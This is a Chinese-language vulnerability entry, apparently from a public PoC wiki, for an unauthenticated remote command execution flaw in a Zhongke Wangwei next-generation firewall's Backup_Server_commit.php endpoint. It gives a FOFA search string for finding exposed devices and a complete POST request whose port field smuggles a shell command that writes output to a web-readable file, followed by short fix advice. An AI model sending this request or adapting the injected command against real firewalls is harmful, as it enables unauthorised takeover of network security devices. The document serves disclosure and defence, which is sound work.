


# 中科网威下一代防火墙控制系统Backup_Server_commit存在远程命令执行漏洞 

# 漏洞描述

中科网威-防火墙控制系统是一款由中科网威有限公司开发的网络安全产品，它是基于软件的网络防火墙解决方案，为企业提供了完整的网络安全保障，中科网威下一代防火墙控制系统Backup_Server_commit存在远程命令执行漏洞，未经授权的攻击者可通过该漏洞获取服务器权限。

# 影响版本

中科网威下一代防火墙控制系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="Get_Verify_Info(hex_md5(user_string)."

POC/EXP：

POST /view/DBManage/Backup_Server_commit.php?action=test HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: frame
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

host=&mode=0&port=;echo%20%60pwd%60%20|tee%20/tmp/www/reporter/cs.txt|pwd&user=&password=&ftppath=

访问cs.txt

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
